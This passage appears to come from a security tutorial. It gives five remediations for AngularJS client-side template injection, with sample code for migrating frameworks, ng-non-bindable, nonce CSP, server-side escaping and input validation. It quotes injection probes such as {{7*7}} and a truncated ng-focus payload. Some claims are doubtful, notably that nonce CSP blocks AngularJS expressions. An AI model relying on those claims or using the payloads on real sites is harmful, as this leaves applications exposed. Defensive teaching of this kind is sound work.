---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Remove AngularJS**

```javascript
// ✅ SECURE - Don't use AngularJS for new projects

// Modern alternative: React, Vue, Angular (not AngularJS!)

// AngularJS (old, vulnerable):
<body ng-app>
    <div>{{userInput}}</div>
</body>

// React (modern, secure):
function App() {
    const [userInput, setUserInput] = useState('');
    
    return (
        <div>{userInput}</div>
        // Automatically escaped by React!
    );
}

// Benefits:
// ✅ Modern framework with active security
// ✅ Automatic escaping by default
// ✅ No client-side template injection
// ✅ Better performance

// AngularJS is deprecated:
// └── No longer maintained
//     └── Known vulnerabilities
//         └── Migrate to modern framework! ✓
```

---

### **Fix 2: Use ng-non-bindable**

```html
<!-- ✅ SECURE - Disable AngularJS on user content -->

<body ng-app>
    <section class="search-results" ng-non-bindable>
        <h1>Results for '<?= htmlspecialchars($search) ?>'</h1>
    </section>
</body>

<!-- What ng-non-bindable does: -->
<!--
Tells AngularJS NOT to compile this section:
├── {{...}} displayed as literal text
├── ng-* directives ignored
├── Template injection prevented
└── User content isolated from AngularJS! ✓

Example:
User input: {{7*7}}
Without ng-non-bindable: 49 (evaluated)
With ng-non-bindable: {{7*7}} (literal text) ✓
-->
```

---

### **Fix 3: Strict CSP with Hashes/Nonces**

```html
<!-- ✅ SECURE - Stricter CSP implementation -->

<!-- Instead of: -->
<!-- Content-Security-Policy: script-src 'self' -->

<!-- Use: -->
<!-- Content-Security-Policy: script-src 'nonce-RANDOM123' -->

<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'nonce-RANDOM123'">
</head>
<body ng-app>
    <script nonce="RANDOM123" src="/angular.min.js"></script>
    <script nonce="RANDOM123">
        // Application code
    </script>
</body>
</html>

<!-- Benefits: -->
<!--
Nonce-based CSP:
├── Each script needs unique nonce
├── Nonce generated server-side per request
├── Even if AngularJS injection exists:
│   └── Cannot create script with valid nonce
│       └── Script blocked! ✓
└── Much stronger than 'self' only

This blocks:
❌ Inline event handlers (even ng-*)
❌ Dynamic script injection
❌ AngularJS template injection
✅ Only scripts with correct nonce execute

Generate nonce per request:
└── Use cryptographically secure random
    └── 128+ bits of entropy
        └── Base64 encode
            └── Include in CSP and <script> tags
-->
```

---

### **Fix 4: Server-Side Rendering Only**

```python
# ✅ SECURE - No client-side templating

from flask import Flask, request, render_template
import html

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Escape for HTML context
    safe_query = html.escape(query)
    
    # Render on server
    return render_template('search.html', query=safe_query)

# Template: search.html
"""
<!DOCTYPE html>
<html>
<head>
    <!-- No AngularJS! -->
</head>
<body>
    <!-- No ng-app! -->
    <h1>Results for '{{ query }}'</h1>
    <!-- Jinja2 auto-escapes {{ query }} -->
</body>
</html>
"""

# Benefits:
# ✅ No client-side template engine
# ✅ No AngularJS vulnerabilities
# ✅ Server-side escaping only
# ✅ Simpler security model

# Example:
# Input: {{7*7}}
# Escaped: {{7*7}} (literal text)
# Output: {{7*7}} displayed
# No evaluation! ✓
```

---

### **Fix 5: Input Validation**

```python
# ✅ SECURE - Strict input validation

from flask import Flask, request
import re

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Reject anything with < or >
    if '<' in query or '>' in query:
        return "Invalid search query", 400
    
    # Reject { or }
    if '{' in query or '}' in query:
        return "Invalid search query", 400
    
    # Whitelist: only alphanumeric and spaces
    if not re.match(r'^[a-zA-Z0-9\s]*$', query):
        return "Invalid search query", 400
    
    # Now safer to use (still escape though!)
    return render_with_escape(query)

# Benefits:
# ✅ Blocks < > { } at entry
# ✅ Prevents HTML injection
# ✅ Prevents template injection
# ✅ Defense at boundary

# Example:
# Input: <input id=x ng-focus=...>
# Validation: Contains < and >
# Result: 400 Bad Request ✓
```

---

